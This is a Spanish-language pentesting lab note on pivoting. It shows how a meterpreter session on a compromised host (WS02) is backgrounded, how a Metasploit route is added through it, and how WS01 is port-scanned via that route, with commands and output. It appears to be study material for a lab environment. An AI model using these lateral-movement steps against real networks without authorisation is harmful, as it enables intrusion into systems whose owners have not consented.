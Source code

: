 ```yaml
---
icon: tent-arrow-left-right
---
```


# Pivoting

Esta tecnica de `Pivoting` consiste en que no se centra unicamente en un puerto, si no que conseguimos redirigir todo el trafico de datos a la maquina victima que este a nivel local, pudiendo escanear todos los puertos y no solo uno, pudiendo explotarla de cualquier forma que queramos, como si estuviera expuesta a la red, pero estariamos `pivotando` a la maquina en si, para que podamos realizar todo esto.

Teniendo una `shell` con la maquina `WS02` desde `metasploit` con `meterpreter`, vamos a mandarla al `background` con `Ctrl+Z` y despues dandole a `y`, con esto dejaremos la sesion en segundo plano, para despues poder utilizarla mas adelante.

```
meterpreter > 
Background session 1? [y/N]  y
```

Ahora vamos a utilizar en `metasploit` un modulo que se llama `route`, esto lo que hace es enrutar todo el trafico de red que nosotros enviemos a la maquina victima que nosotros pongamos, por ejemplo pondremos la de `WS01`.

```shell
route add 192.168.5.208 255.255.255.0 1
```

Con el `1` le estamos indicando que utilice la sesion de meterpreter numero `1`, ya que si hacemos `sessions` podremos ver las sesiones en mi caso:

```
Active sessions
===============

  Id  Name  Type                     Information            Connection
  --  ----  ----                     -----------            ----------
  1         meterpreter x86/windows  CORP\empleado2 @ WS02  192.168.5.205:7777 -> 192.168.5.209:63411 (192.168.5.209)
```

Seria la numero `1`, por eso pongo un `1`.

Info (`Comando route`):

```
[*] Route added
```

Lo que estamos haciendo es que ahora vamos a enrutar todo el trafico desde la sesion que tenemos de la maquina `WS02` a la `WS01`, por lo que cuando hagamos un escaneo de puertos o de cualquier otra cosa lo estaremos haciendo a la `WS01` por que se lo enviara la maquina `WS02` que tenemos comprometida.

Ahora utilizaremos el siguiente modulo:

```shell
use auxiliary/scanner/portscan/tcp
```

Ahora vamos a configurar un poco el modulo para realizar el escaneo de puertos, pero vamos a bajarle un poco los puertos que tiene por defecto y demas cosas.

```shell
set PORTS 100-150
set RHOSTS 192.168.5.208
run
```

En el `RHOSTS` ponemos la `IP` de la maquina que queremos escanear al cual le hemos echo el `route`.

Info:

```
[+] 192.168.5.208:        - 192.168.5.208:135 - TCP OPEN
[+] 192.168.5.208:        - 192.168.5.208:139 - TCP OPEN
[*] 192.168.5.208:        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

El escaneo a nivel de `red` lo ha realizado la maquina `WS02` en vez de el `kali` ya que se esta enrutando el trafico de `red` desde el `kali` al `WS02` y este al `WS01`, por lo que en parte seria un escaneo invisible para nuestra maquina `kali`.

Con esto ya digo, podremos utilizar algun `exploit` o cualquier otra cosa de explotacion para la maquina `WS01` utilizando la maquina de salto `WS02` que lo hara en dicho nombre.
